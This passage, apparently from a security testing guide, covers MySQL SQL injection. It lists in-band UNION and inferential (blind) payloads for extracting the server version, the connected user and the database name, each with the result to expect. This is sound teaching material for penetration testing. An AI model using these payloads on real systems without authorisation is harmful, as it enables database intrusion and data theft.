 `if(version >= 4.1.10) `
`   add 'and 1=0' to the query.`

These are equivalent as the result is the same.

In band injection:

`1 AND 1=0 UNION SELECT @@version /*`

Inferential injection:

`1 AND @@version like '4.0%'`

**Result Expected:**
A string like this:

`5.0.22-log`

#### Login User

There are two kinds of users MySQL Server relies upon.

1.  [USER()](http://dev.mysql.com/doc/refman/5.0/en/information-functions.html):
    the user connected to the MySQL Server.
2.  [CURRENT_USER()](http://dev.mysql.com/doc/refman/5.0/en/information-functions.html):
    the internal user who is executing the query.

There is some difference between 1 and 2. The main one is that an
anonymous user could connect (if allowed) with any name, but the MySQL
internal user is an empty name (''). Another difference is that a stored
procedure or a stored function are executed as the creator user, if not
declared elsewhere. This can be known by using **CURRENT_USER**.

In band injection:

`1 AND 1=0 UNION SELECT USER() `

Inferential injection:

`1 AND USER() like 'root%'`

**Result Expected:**
A string like this:

`user@hostname`

#### Database name in use

There is the native function DATABASE()

In band injection:

`1 AND 1=0 UNION SELECT DATABASE() `

Inferential injection:

`1 AND DATABASE() like 'db%'`

**Result Expected:**
A string like this:

`dbname`
